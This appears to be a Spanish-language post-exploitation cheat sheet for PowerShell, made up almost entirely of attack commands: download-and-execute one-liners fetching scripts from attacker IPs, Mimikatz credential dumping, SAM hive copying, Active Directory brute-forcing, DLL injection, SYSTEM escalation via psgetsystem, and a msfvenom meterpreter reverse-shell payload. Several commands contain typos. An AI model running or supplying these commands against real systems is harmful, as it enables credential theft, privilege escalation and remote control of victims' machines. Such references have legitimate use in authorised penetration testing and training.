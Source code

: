 ```yaml
---
title: 'Post exploitation'
description: ''
pubDate: 'May 12 2023'
slug: 'powershell/post_exploitation'
---
```


[Nishang](https://github.com/samratashok/nishang) trae lo mejor de otras herramientas.

```powershell
# Copia el registro hive y el SAM del directorio actual de trabajo
iex (Net-Objcet Net.WebClient).downloadstring("http://192.168.0.17:8080/script.ps1");Copy-VSS

```

Invoke-Mimikatz cmdlet dumpea los hashes de la memoria

```powershell
iex (New.Object Net.WebClient).downloadstring("http://192.168.0.17/Invoke-Mimikatz"); Invoke-Mimikatz -DumpCreds

powershell.exe iex(New-Object Net-WebClient).downloadString(\"http://10.90.60.80:33333/asd.txt\");
powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.90.60.80:33333/hola\");
```

#### Bruteforcing MSSQL, Directorio activo, web y ftp

```powershell
Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pass.txt -Service ActiveDirectory -StopOnSuccess -Verbose
```

#### DLL Injection - PowerSploit

```powershell
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
# lo pasamos a la windows con iex...
iex (Net-Object Net-client).DownloadFile("http://atack_url/cmd.dll", "C:\temp\cmd.dll")
# inyectamos nuestro dll a un proceso por ejemplo notepad, identificamos el PID
ps | ? {$_.ProcessName -match "notepad"}
# ahora lo inyecatamos descargando el dll e identificando el proceso
iex (New-Object Net.Webclient).DownloadString("http://atack_url/Invoke-DLLInjection.ps1");Invoke-DLLInjection -ProcessID 7413 C:\programdata\cmd.dll

[ExplicaciónDLL Injection](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)

```

#### Psgetsystem

Evadir apps de soluciones de lista blanca para injectar nosotros mismos a un proceso confiable

[psgetsystem script](https://github.com/decoder-it/psgetsystem)

```powershell
# descargado a nuestro target, lo source y executamos
. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(<system_pid>, "<command_to_execute>")

# antes de hacer esto necesitamos identificar un proceso y elegimos uno que podamos utilizar
Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id
# nos da una lista de procesos system-owned justo con el PId y el nombre del proceso

# Ejecuta cmd.exe prompt pero como proceso hijo del system-owned processname.exe y como resultado nuestro proceso hijo tambien sera SYSTEM (NT authority/system)

. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(3385, "cmd.exe")

```

otra exelente herramienta [Empire](https://github.com/EmpireProject/Empire)

```bash
msfvenom -p windows/x64/meterpreter_reverse_https lport=443 lhost=192.168.0.55 -f psh-reflection > payload.ps1

```

